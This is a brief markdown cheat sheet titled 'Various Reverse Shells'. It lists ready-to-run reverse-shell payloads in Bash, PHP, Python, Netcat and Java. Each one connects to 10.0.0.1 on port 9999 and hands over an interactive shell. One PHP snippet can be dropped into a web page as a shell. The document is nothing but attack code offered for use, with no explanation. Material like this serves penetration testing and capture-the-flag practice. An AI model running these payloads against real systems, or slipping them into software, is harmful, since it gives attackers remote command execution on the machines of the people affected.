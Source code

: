 # Various Reverse Shells

# Bash
```
bash -i >& /dev/tcp/10.0.0.1/9999 0>&1
```
###

# PHP
```
php -r '$sock=fsockopen("10.0.0.1",9999);exec("bash -i <&3 >&3 2>&3");'
```
##
##
```
<?php 

$cmd = 'echo "bash -i >& /dev/tcp/10.0.0.1/9999 0>&1" | bash';
exec($cmd);

?>
```
###

# Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

```
###
###
```
import socket,subprocess,os;

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);

s.connect(("10.0.0.1",9999));

os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);

p=subprocess.call(["/bin/bash","-i"]);

```
###

# Netcat
```
nc -e /bin/sh 10.0.0.1 9999
```
###

# Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/9999;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
###
